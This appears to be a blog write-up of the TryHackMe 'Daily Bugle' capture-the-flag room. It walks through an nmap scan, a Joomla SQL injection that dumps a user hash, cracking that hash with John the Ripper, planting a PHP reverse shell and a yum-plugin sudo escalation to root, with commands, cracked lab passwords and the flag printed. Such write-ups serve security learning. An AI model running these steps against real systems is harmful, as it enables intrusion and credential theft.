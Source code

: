 ```yaml
---
layout : post 
title: dailybungle
image : dailybuglepng.png
date: 2021-04-25 01:43 +0530

tags: [John TheRipper ,  gtfobin yum]
---
```


# Nmap

```
 nmap -sC -sV 10.10.10.5  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 01:50 EDT
Nmap scan report for 10.10.10.5 (10.10.10.5)
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)

```

# Exploitation

joomblah 3.7.0 is vulnerble for SQLI 

```
python exploit.py  http://10.10.10.5                 
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```
<h3>JohnTheRipper</h3>
cracking the hash of jonah 

copy the hash to password_hash

>john  --wordlist=~/rockyou.txt password_hash

```
john  --wordlist=~/rockyou.txt password_hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:05:15 0.20% (ETA: 2021-04-26 21:51) 0g/s 108.9p/s 108.9c/s 108.9C/s 010294..ultraviolet
spiderman123     (?)
1g 0:00:07:09 DONE (2021-04-25 01:48) 0.002328g/s 109.0p/s 109.0c/s 109.0C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```
`jonah:spiderman123`

![]({{site.baseurl}}/img/tryhackme/dailyBugle/login.png)

Gaining ReverseShell

![]({{site.baseurl}}/img/tryhackme/dailyBugle/processn.png)

lets replace the index.php code with [PHPReverseShell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php): code 

![]({{site.baseurl}}/img/tryhackme/dailyBugle/edit.png)

![]({{site.baseurl}}/img/tryhackme/dailyBugle/revshell.png)

got the revershell

![]({{site.baseurl}}/img/tryhackme/dailyBugle/gotshell.png)


# PrivilageEsclation

from linpeasout put at `/var/www/html/configuration.php`

![]({{site.baseurl}}/img/tryhackme/dailyBugle/config.php.png)

got password `jjameson:nv5uz9r3ZEDzVjNu`

user jjameson can rum yum as root without passwd 

![]({{site.baseurl}}/img/tryhackme/dailyBugle/sudo.png)

```
[jjameson@dailybugle tmp]$ TF=$(mktemp -d)
[jjameson@dailybugle tmp]$ cat >$TF/x<< EOF  
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle tmp]$ 
[jjameson@dailybugle tmp]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle tmp]$ 
[jjameson@dailybugle tmp]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>    os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle tmp]$ 
[jjameson@dailybugle tmp]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# wgoami
sh: wgoami: command not found
sh-4.2# whoami
root
sh-4.2# cd /root
sh-4.2# ls
anaconda-ks.cfg  root.txt
sh-4.2# cat root.txt
eec3d53292b1821868266858d7fa6f79

```




